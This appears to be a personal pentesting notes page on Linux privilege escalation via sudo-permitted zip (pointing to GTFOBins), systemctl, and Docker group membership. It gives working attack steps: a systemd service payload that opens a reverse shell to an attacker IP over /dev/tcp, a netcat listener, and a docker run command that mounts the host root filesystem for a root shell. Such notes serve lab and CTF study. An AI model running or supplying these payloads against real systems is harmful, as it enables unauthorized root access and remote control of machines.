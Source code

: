 GTFOBins is a curated list of Unix binaries that can be *used to bypass local security restrictions* in misconfigured systems.

---
# zip
Here, There Is Command Called *sudo -l*, When You Type It Shows This :-
![[Pasted image 20220810163817.png]]

This Means That *We Can Run The zip command while using sudo,* **Only The zip Command!**

Go On This Website : [GTFOBins](https://gtfobins.github.io/)

Search For The *Command You Wanna Escalate Your Privilges On*. In This Case <u>sudo zip</u>.

Run These Commands Below And *Get The Root Access! (Actually Only The First 2 Would Do It)*
![[Pasted image 20220810164206.png]]

---
# systemctl
1) Prepare your payload `root.service`

```sh
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/[KaliIP]/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

2) Find Writeable Files/Directories
```sh
find / -writable -type f 2>/dev/null
find / -writable -type d 2>/dev/null
```

3) Transfer the `root.service` Payload
	- By Writing There using *vim editor*
	- Transfer using [[Netcat & Ncat]]

4) Start listening on port **9999**
```sh
nc -lvnp 9999
```

5) Execute the Payload (Assume file is in */tmp* Directory)
```sh
systemctl enable /tmp/root.service

# Output
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /dev/shm/root.service
Created symlink from /etc/systemd/system/root.service -> /dev/shm/root.service
```

```sh
systemctl start root
```

---
# Docker
If user is `root` or in `docker` group :-
![[Pasted image 20231014234455.png]]

Check for installed **Docker images** in the system
```sh
docker image ls
```
```sh
docker run -v /:/mnt --rm -it [image_name] chroot /mnt sh
```
Here we have created a new docker container from image alpine, mounted the root filesystem to `/mnt`, started the docker container in interactive mode which will give us a shell to work with, changed the root to `/mnt` and finally told to delete the container upon exiting.